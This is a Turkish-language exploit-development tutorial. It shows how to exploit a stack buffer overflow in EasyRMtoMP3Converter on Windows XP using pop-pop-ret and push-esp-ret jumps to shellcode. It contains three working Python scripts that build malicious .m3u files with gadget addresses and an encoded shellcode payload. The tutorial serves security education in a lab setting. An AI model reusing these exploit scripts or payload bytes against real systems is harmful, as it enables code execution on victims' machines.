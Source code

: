 # Exploit Writing Tutorial Part 2 : Stack Based Overflow - jumping to shellcode

`OS` : Windows XP SP3

`Vulnerable App`: [EasyRMtoMP3Converter](https://web.archive.org/web/20100219221638/http://www.rm-to-mp3.net/)

`Debugger` : [Immunity Debugger](https://www.immunityinc.com/products/debugger/)

`Video` : https://www.twitch.tv/videos/699229760

`Source` : https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/

Bir önceki yazıda temel olarak `stack overflow` zafiyetinin nasıl tespit edildiğini ve `exploit` edildiğini gördük. Ancak sürekli olarak gelişen `saldırı` teknikleri yanında `savunma` teknikleri de geliştiği için uyguladığımız taktik her koşulda çalışmayabilir veya o taktiğin oluşması için gerekli olan gereksinimlere sahip olamayabiliriz. Bundan dolayıdır ki farklı farklı taktikler geliştirmemiz/öğrenmemiz gerekmektedir.

Bu yazıda da EIP üzerine direk shellcode'un olduğu adresi yazmak veya `jmp esp` gibi bir işlem ile shellcode'a sıçramak dışında başka hangi yöntemler ile shellcode'umuza sıçrayıp çalıştırabiliriz ona bakacağız.

`corelan.be`'nin kendi sayfasında yer alan bazı yöntemler... İlk sırada yer alan `jump (or call)` tekniğini geçen yazıda anlattık.
![multiple methods](img/0x02/0.png)

## `pop ret`

Bu tekniği nasıl anlatabilirim diye düşünürken gene corelan abimizin güzel bir çizimini gördüm :D

![pop-pop-ret](img/0x02/1.png)

Bu yöntemde gene EIP 'ye kadar olan alanımızı dolduruyoruz. Daha sonra EIP üzerine tekniğin adından da anlaşıldığı üzere pop-pop-ret komutlarını giriyoruz. Peki bu komutlar ne yapıyor ?

Mesela `pop ebx, pop eax, ret` diye bir komutumuz olsun. (Hatırlayacak olursanız `pop` komutu  stack içerisinden bir veri çıkarmak için kullanılır.) Burda `pop ebx, pop eax` dediğimiz zaman stack'e en son gönderilmiş 2 değeri sırasıyla bu registerlarımıza yerleştirecektir. Daha sonra gelen `ret` komutu ise stackde bulunan son adresi/komutu çalıştıracaktır. Bizim için önemli olan kısım `ret` komutunun shellcode'umuza gidecek birşeyler yapması. Yani ebx, eax registerlarına bir değer yüklemek bizim işimize yaramayacağı için bunlara yan etki diyoruz.

`NOT:` Stack'in en sonundan kasıt ESP'nin o an gösterdiği konum gibi düşünebiliriz

Bu yan etkilerden kurtulmak içinde `pop ebx, eax` komutumuzdan sonra bu registerlara rastgele birer değer yerleştirmek için 8 byte'lık bir karakter giriyoruz. Yukardaki resme bakacak olursanız eğer EIP registerından sonra yazmış olduğu 8 tane NOP karakteri ebx, eax üzerine yazılacak. Daha sonra ret komutu çalıştığında `jmp esp` komutunu başarıyla çalıştıracak böylece shellcode'umuz çalışmış olacaktır.

Hadi bir de bu tekniği kullanarak kendimiz bir exploit yazalım... Önceki yazıdan zaten `EIP`'ye yazmak için kaç karaktere ihtiyacımız olduğunu bulmuştuk. Hatta `jmp esp` işlemini gerçekleştiren bir adreste bulmuştuk.

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"A"*26109
jmp_esp = b"\xB4\x39\xCD\x01" # jmp esp - MSRMCcodec02.dll
pop_pop_ret = b""
nop = b"\x90"*25
pre_esp = b"JUNK"

exploit = padding + pop_pop_ret + pre_esp + b"\x90"*8 + jmp_esp + nop + calc + nop

# File path
file = "EasyRMtoMP3Converter/exploit.m3u"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```  

Exploitimiz şu şekilde olacak. Tek eksiğimiz `pop pop ret` yapan bir gadget bulmak.

İkinci seçenek olarak hazır bir gadget bulmak yerine registerları pop eden komutların `opcode`'larını öğrenip onlarıda kullanabiliriz

Immunity Debugger üzerinde programımızı açalım ve `CTRL+S` kısayolunu kullanıp `Find sequence of commands` ekranını açalım. Ve aşağıda yazan komutu girelim ve aratalım.

```
POP R32
POP R32
RET
```

Eğer benim gibi `main` dosyanın içerisinde aratır ve badchar olmayan bir gadget bulamazsanız o zaman `All sequences in all modules` ile deneyebilirsiniz :D

![pop r32](img/0x02/2.png)

Sonuç olarak bir sürü bişi çıkıyor...

![all pop pop ret](img/0x02/3.png)

Burdan badchar olmayan bir adres seçebiliriz. Veya daha önce `jmp esp` işlemini bulmuş olduğumuz `MSRMCcodec02.dll` dosyasını açıp orda aratabiliriz.

![find rop](img/0x02/4.png)

Ve artık exploitimizi tamamlayabiliriz.

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"A"*26109
jmp_esp = b"\xB4\x39\xCD\x01" # jmp esp - MSRMCcodec02.dll
pop_pop_ret = b"\x11\x11\xBF\x01" # pop edi pop esi retn - MSRMCcodec02.dll
nop = b"\x90"*25
pre_esp = b"JUNK"


exploit = padding + pop_pop_ret + pre_esp + b"\x90"*8 + jmp_esp + nop + calc + nop

# File path
file = "EasyRMtoMP3Converter/exploit.m3u"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Exploitimiz hazır :) Afiyet olsun

![exploit](img/0x02/5.png)

## `push ret`

Bu kısımda aslında `pop ret` tekniğine çok benzer. Sadece stackden bir değer çıkarmak yerine stack içerisine bir değer eklememiz gerekiyor. Bu eklediğimiz değerde ret komutu ile çalışmış olacak. Yani stack içerisine shellcode'umuzu gösteren birşeyler pushlamamız gerekecek. Bunun içinde biçilmiş kaftan olan `push esp, ret` komutunu arayacağız :D

`MSRMCcodec00.dll` içerisinde bir tane buldum.

![push esp](img/0x02/6.png)

Evet lafı çokda uzatmaya gerek yok hemen exploitimizi hazırlayalım.

POP komutları olmadığı için onları atlatmak için kullandığımız 8 byte'lık NOP karakterlerine ihtiyacımız yok. Ayrıca ESP adresini tek komutta return edeceğimiz için jmp esp komutunada ihtiyacımız olmayacak.

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"A"*26109
push_ret = b"\xF6\x57\xB8\x01" # push esp  retn - MSRMCcodec00.dll
nop = b"\x90"*25
pre_esp = b"JUNK"


exploit = padding + push_ret + pre_esp + nop + calc + nop

# File path
file = "EasyRMtoMP3Converter/exploit.m3u"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Şimdi çalıştıralım...

![exploit](img/0x02/7.png)

Ve başarılı bir şekilde çalışmış oldu :)

## `mona.py` Kurulumu

https://github.com/corelan/mona/blob/master/mona.py Şu adreste bulunan mona.py dosyasını Windows XP sanal makinemizde `C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands` dizinin altına indiriyoruz.

`!mona config -set workingfolder C:\Documents and Settings\Administrator\Desktop\%p` Komutu ile de aradığımız şeyin çıktısını masaüstünde bir dosyanın içine yaz demiş oluyoruz.
